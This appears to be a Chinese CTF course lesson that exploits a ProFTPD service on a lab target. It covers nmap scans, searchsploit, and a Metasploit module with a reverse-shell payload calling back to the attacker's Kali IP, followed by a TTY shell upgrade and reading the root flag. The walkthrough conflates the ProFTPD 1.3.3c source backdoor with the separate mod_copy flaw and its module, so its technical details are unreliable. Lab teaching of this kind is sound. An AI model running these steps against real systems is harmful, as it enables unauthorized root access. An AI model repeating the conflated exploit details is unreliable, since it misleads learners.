






# CTF入门课程：P12：FTP服务后门利用实战 🚩

在本节课中，我们将学习CTF比赛中服务安全的一个经典场景：利用FTP服务的已知后门漏洞，获取靶机（目标服务器）的root权限，并最终找到并提交flag值。整个过程将涵盖信息收集、漏洞搜索、利用工具（Metasploit）以及权限提升后的基本操作。

---

## FTP协议简介

上一节我们介绍了CTF比赛的基本概念，本节中我们来看看FTP服务。FTP是文件传输协议的英文简称，中文简称为文件协议。它用于在Internet上控制文件的双向传输。FTP也是一个应用程序，基于不同操作系统有不同的FTP服务实现，但所有应用程序都遵守同一种协议来传输文件。

在FTP的使用中，用户经常遇到两个概念：下载和上传。下载文件就是从远程主机拷贝文件到自己的计算机中。上传文件是指将文件从自己的计算机拷贝到远程计算机上。用互联网术语来说，用户可以通过客户端程序从远程主机上传或下载文件。由此可知，FTP就是规定文件传输方式的一种协议或法则。

---

## 实验环境搭建

在开始实战前，我们需要明确实验环境。本次实验涉及两台机器：

*   **攻击机**：采用Kali Linux系统，IP地址为 `192.168.1.105`。
*   **靶机**：采用Ubuntu系统，IP地址为 `192.168.1.100`。

我们的目标是获取靶机上的flag值，这通常意味着需要先获得靶机的控制权限。

---

## 第一步：信息收集与端口扫描

我们的第一步是探测靶机上开放了哪些服务及其版本。这里使用强大的网络扫描工具Nmap。

以下是使用Nmap进行服务版本扫描的命令：
```bash
nmap -sV 192.168.1.100
```
参数 `-sV` 表示探测服务版本。

执行该命令后，Nmap会向靶机发送数据包，并根据响应信息分析出开放端口及对应的服务软件和版本。

除了基础版本扫描，还可以使用更全面的扫描方式，快速获取靶机的操作系统、路由等更多信息。

以下是使用Nmap进行快速全面扫描的命令：
```bash
nmap -T4 -A -v 192.168.1.100
```
参数说明：
*   `-T4`：设定扫描速度为最快。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-v`：显示详细输出信息。

扫描完成后，我们分析结果。发现靶机开放了21（FTP）、22（SSH）、80（HTTP）端口。本节课的重点是21端口的FTP服务。扫描结果显示，FTP服务软件为 **ProFTPD**，并显示了其具体版本号。

---

## 第二步：搜索与验证漏洞



发现具体软件和版本后，下一步是查找该版本是否存在已知漏洞。我们使用 `searchsploit` 工具在漏洞数据库中进行搜索。

搜索命令格式如下，将扫描到的软件及版本信息作为关键词：
```bash
searchsploit ProFTPD 1.3.3c
```
搜索结果显示，存在一个名为 “ProFTPD 1.3.3c - ‘mod_copy’ Command Execution” 的漏洞，这是一个远程代码执行漏洞，源于源代码中的后门。该漏洞已被集成到Metasploit渗透测试框架中。

为了更直观地了解漏洞细节，可以查看其利用代码（Exploit）。使用 `cat` 命令查看 `searchsploit` 提供的本地文件路径。

---



## 第三步：利用Metasploit进行攻击

由于该漏洞已集成到Metasploit中，我们可以使用这个强大的框架来简化攻击流程。

首先，启动Metasploit的控制台界面：
```bash
msfconsole
```
启动后，在msf6提示符下搜索相关漏洞模块：
```bash
search ProFTPD 1.3.3c
```
找到对应的 exploit 模块后，使用 `use` 命令加载它：
```bash
use exploit/unix/ftp/proftpd_modcopy_exec
```
接着，查看该模块可用的攻击载荷（Payload）：
```bash
show payloads
```
我们选择使用 `cmd/unix/reverse` 这个载荷，它能够建立一个反向shell连接回我们的攻击机。设置载荷：
```bash
set payload cmd/unix/reverse
```
现在，需要配置攻击所需的参数。使用 `show options` 查看需要设置的选项：
```bash
show options
```
需要设置的两个关键参数是：
*   `RHOSTS`：靶机的IP地址（`192.168.1.100`）。
*   `LHOST`：监听IP地址，即攻击机Kali的IP地址（`192.168.1.105`）。

使用 `set` 命令进行设置：
```bash
set RHOSTS 192.168.1.100
set LHOST 192.168.1.105
```
配置完成后，再次使用 `show options` 确认参数无误。最后，执行攻击：
```bash
exploit
```
命令执行后，Metasploit会发送利用代码。成功后，我们会获得一个反向shell会话，并自动拥有 **root 权限**。可以通过 `id` 命令验证当前用户权限。





---

## 第四步：优化Shell与寻找Flag

获得的初始shell可能功能不全或显示不友好。我们可以使用Python来生成一个功能更完整的TTY shell。

在获得的shell中执行以下命令：
```python
python -c "import pty; pty.spawn('/bin/bash')"
```
执行后，shell会变得更加易用，并且可以看到提示符变为 `root@靶机主机名` 的格式。



接下来，开始寻找flag。在CTF比赛中，flag文件通常存放在根目录（`/`）或root用户的家目录（`/root`）下。

首先查看当前目录：
```bash
pwd
```
然后列出根目录下的文件：
```bash
ls -alh /
```
切换到 `/root` 目录并查看：
```bash
cd /root
ls -alh
```
假设发现一个名为 `flag` 或 `flag.txt` 的文件，使用 `cat` 命令读取其内容：
```bash
cat flag
```
屏幕上显示的内容就是本次挑战的flag值，将其提交即可得分。



---

## 总结与思考

本节课中我们一起学习了针对FTP服务后门漏洞的完整利用流程。对于开放了FTP、SSH、HTTP等服务的系统，在信息收集阶段发现具体服务版本后，应尝试使用 `searchsploit` 或漏洞数据库查询是否存在公开漏洞。如果存在且已有成熟的利用代码（如集成在Metasploit中），可以直接利用来获取主机访问权限。


需要强调的是，在CTF比赛或安全评估中，攻击面是多元的。每一个开放端口、每一项服务及其版本信息都可能是突破口，不应局限于某一种攻击方式（如仅关注Web漏洞）。综合利用各种信息，才能更有效地达成目标。